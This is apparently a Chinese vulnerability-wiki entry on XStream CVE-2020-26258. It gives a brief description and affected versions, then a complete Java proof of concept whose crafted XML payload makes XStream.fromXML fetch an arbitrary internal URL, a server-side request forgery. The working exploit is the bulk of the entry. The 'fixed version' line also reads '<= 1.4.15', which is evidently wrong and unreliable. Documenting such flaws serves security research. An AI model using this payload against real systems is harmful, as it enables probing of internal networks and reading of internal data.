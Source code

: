 # XStream SSRF 反序列化漏洞 CVE-2020-26258

## 漏洞描述

Xstream 是 Java 类库，用来将对象序列化成 XML (JSON) 或反序列化为对象。XStream 是一款开源软件，允许在 BSD 许可证的许可下分发。

参考链接：

- https://raw.githubusercontent.com/jas502n/CVE-2020-26259/main/CVE_2020_26258.java

## 漏洞影响

影响版本：

```
Xstream < = 1.4.14
```

修复版本：

```
Xstream < = 1.4.15
```

## 漏洞复现

poc：

```
import com.thoughtworks.xstream.XStream;

/*
CVE-2020-26258: A Server-Side Forgery Request can be activated unmarshalling
with XStream to access data streams from an arbitrary URL referencing a resource in an intranet or the local host.
All versions until and including version 1.4.14
https://x-stream.github.io/CVE-2020-26258.html
Security framework of XStream not explicitly initialized, using predefined black list on your own risk.
*/

public class CVE_2020_26258 {
    public static void main(String[] args) {
        String ssrf_xml = "<map>\n" +
                "  <entry>\n" +
                "    <jdk.nashorn.internal.objects.NativeString>\n" +
                "      <flags>0</flags>\n" +
                "      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>\n" +
                "        <dataHandler>\n" +
                "          <dataSource class='javax.activation.URLDataSource'>\n" +
                "            <url>http://localhost:8989/internal/:</url>\n" +
                "          </dataSource>\n" +
                "          <transferFlavors/>\n" +
                "        </dataHandler>\n" +
                "        <dataLen>0</dataLen>\n" +
                "      </value>\n" +
                "    </jdk.nashorn.internal.objects.NativeString>\n" +
                "    <string>test</string>\n" +
                "  </entry>\n" +
                "</map>";
        XStream xstream = new XStream();
        xstream.fromXML(ssrf_xml);
    }
}
```
